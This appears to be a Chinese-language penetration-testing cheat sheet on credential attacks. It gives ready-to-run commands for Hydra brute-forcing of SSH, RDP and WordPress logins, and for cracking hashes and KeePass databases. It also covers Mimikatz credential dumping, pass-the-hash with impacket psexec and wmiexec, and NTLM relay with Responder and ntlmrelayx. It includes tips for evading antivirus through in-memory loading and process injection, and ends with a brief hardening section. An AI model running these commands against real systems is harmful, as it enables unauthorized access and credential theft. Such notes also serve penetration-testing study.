

## 一、网络服务登录爆破
### 1.1 SSH/RDP密码爆破
```bash
# Hydra基础语法（支持多协议）
sudo hydra -L <用户名字典> -P <密码字典> [-s 端口] <协议类型>://<目标IP>

# 示例：SSH爆破
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.1.10

# RDP爆破（需确认目标开启RDP）
sudo hydra -L users.txt -P pass.txt rdp://192.168.1.20
```
**注意事项：**
- 推荐使用 `-t` 参数控制并发线程（默认16）
- 爆破成功后自动输出结果，可使用 `-o` 指定输出文件
- Windows系统建议使用 `xfreerdp` 验证RDP连接

### 1.2 HTTP表单爆破
```bash
# 基础语法
sudo hydra <IP> http-post-form "<路径>:<POST数据>:<失败特征>"

# 示例：WordPress登录爆破
sudo hydra 192.168.1.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```
**参数说明：**
- `^USER^` 和 `^PASS^` 为占位符
- 失败特征需通过分析响应报文确定
- 建议使用 `-V` 参数显示详细输出

## 二、本地密码爆破与规则优化
### 2.1 工具链组合

**工具选择：**

- `John`：适合快速破解简单密码，支持规则扩展
- `Hashcat`：GPU加速，支持模式更多（包括最新加密算法）

### 2.2 密码规则语法
```bash
# 示例规则文件 myrules.rule
:
c $1$!	# 首字母大写 + 尾部添加"1!"
?d >2	# 当密码长度>2时添加数字后缀
```
**常用操作符：**
- `:` 规则起始符
- `c` 首字母大写
- `$` 尾部追加字符
- `?l` 插入小写字母
- `sXY` 替换X为Y

### 2.3 Keepass破解
```bash
# 提取哈希
keepass2john Database.kdbx > hash.txt

# Hashcat破解
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```

## 三、NTLM攻击体系
### 3.1 哈希获取技术
```powershell
# Mimikatz标准流程
privilege::debug
token::elevate
sekurlsa::logonpasswords
lsadump::sam
```
**防御规避：**
- 使用内存加载执行：`Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'`
- 配合进程注入技术绕过杀软

### 3.2 哈希传递攻击
**SMB协议利用：**
```bash
smbclient //192.168.1.50/C$ -U Administrator --pw-nt-hash aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

**命令执行：**
```bash
# psexec横向移动
impacket-psexec -hashes LMHASH:NTHASH Administrator@192.168.1.50

# wmiexec无文件执行
impacket-wmiexec -hashes :NTHASH Administrator@192.168.1.50
```

### 3.3 Net-NTLMv2攻击
**Responder嗅探：**
```bash
sudo responder -I eth0 -dwPv
```
**中继攻击（需禁用SMB签名）：**
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "powershell -enc <BASE64_CMD>"
```
**PowerShell命令加密：**
```bash
echo 'Get-Process' | iconv -t UTF-16LE | base64 -w 0
# 输出：RwBlAHQALQBQAHIAbwBjAGUAcwBzAA==
```

## 四、防御加固建议
1. **网络层防护**
   - 启用SMB签名（Group Policy: Computer > MS > MS > Require security signature）
   - 禁用NTLMv1，强制使用Kerberos认证

2. **系统层加固**
   ```powershell
   # 启用Credential Guard
   Enable-WindowsOptionalFeature -Online -FeatureName Windows-Defender-CredentialGuard
   # 限制WMI执行权限
   Set-NetFirewallRule -DisplayName "Windows Management Instrumentation (WMI)" -Action Block
   ```

3. **监控策略**
   - 监控Event ID 4624（登录类型3的网络登录）
   - 建立哈希异常检测机制（如突然出现大量NTLMv1请求）

## 扩展学习
1. **Hashcat模式速查表**：[hashcat.net/wiki/doku.php?id=example_hashes]
2. **Impacket官方示例**：[github.com/SecureAuthCorp/impacket/tree/master/examples]
3. **Active Directory安全手册**：[adsecurity.org]